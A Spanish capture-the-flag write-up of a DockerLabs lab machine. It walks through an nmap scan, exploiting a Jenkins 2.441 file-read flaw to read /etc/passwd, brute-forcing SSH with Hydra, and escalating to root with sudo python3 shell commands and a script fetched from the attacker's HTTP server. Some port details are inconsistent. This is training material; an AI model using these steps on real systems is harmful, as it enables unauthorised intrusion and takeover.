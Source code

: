 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9445b28f-53ba-41a7-984d-5e9e79d71696)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **21/tcp(FTP):** OpenSSH 9.2p1
2.  **8080/tcp(HTTP):** Jetty 10.0.18
### Puerto 8080
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a una pagina de inicio de sesión de Jenkins.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1c2c75b7-dc18-42f3-b66d-c5b4b4e30fb3)

# Fase 2- Exploración

#### Feroxbuster
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/21b143cb-80ea-4b71-83d2-4369b5386053)
Con Feroxbuster encontramos una especie de panel de control. Y abajo nos dice la versión de Jenkins 2.441. 

#### 2.441
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c7db52ed-e7f3-4f46-b7f5-c5dd3868b504)
Con Searchsploit encontramos un local file Inclusion en esa versión. 

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5c5bc613-b829-4d78-af2e-e5e3837082c1)
Y en GitHub encontramos un Arbitrary File Read.

# Fase 3- Explotación

#### 51993.py
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d454c258-9642-4fe3-8606-3a3accd0c9e1)

Usamos el de Searchsploit para leer el /etc/passwd y enumerar posibles usuarios. Vemos los usuarios `pinguinito` y `bobby`.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/db5f4017-1e5a-497f-9ec9-ba46152f2aeb)

Realizamos un ataque de fuerza bruta al puerto 22, al usuario Bobby, y su contraseña es chocolate.

# Fase 4- Privilegios

#### Bobby
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/dacfff3b-416f-4e6a-8b9c-6a243fffbd84)

Al usar `sudo -l` vemos que podemos usar el binario python3 como el usuario `pinguinito`.

#### Gtfobins
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/19738933-1c64-4c36-8b81-bfb2ceb42c58)

Nos dirigimos a gtfobins y nos dice que para escalar al usuario pinguinito tenemos que usar el siguiente comando: 
```python
sudo python -c 'import os; os.system("/bin/sh")'
```
Como ese comando no funciono, usamos este:
```python
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

#### Pinguinito
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/11fccb95-bd8b-4c45-bf02-36fdadf39604)

Ahora como el usuario pinguinito podemos usar el binario python3 y un archivo que se encuentra en /opt/script.py.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8725a7a4-cfa0-4f7f-8b58-b379fc16a7b4)
Lo que hice fue, cambiar el nombre del archivo script.py original a ss.py, crear un archivo en mi maquina atacante llamado script.py que contenga lo siguiente:
```python
import os
os.system("/bin/bash")
```
Y con python usando el comando: `python -m http.server 80` me descargue en la maquina victima usando curl el fichero que cree.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/51ebc99a-1be7-4854-ba76-4bf6c64ec424)

Y ejecutando el archivo con el comando:
```python
sudo -u root /usr/bin/python3 /opt/script.py
```
Escalamos a root!
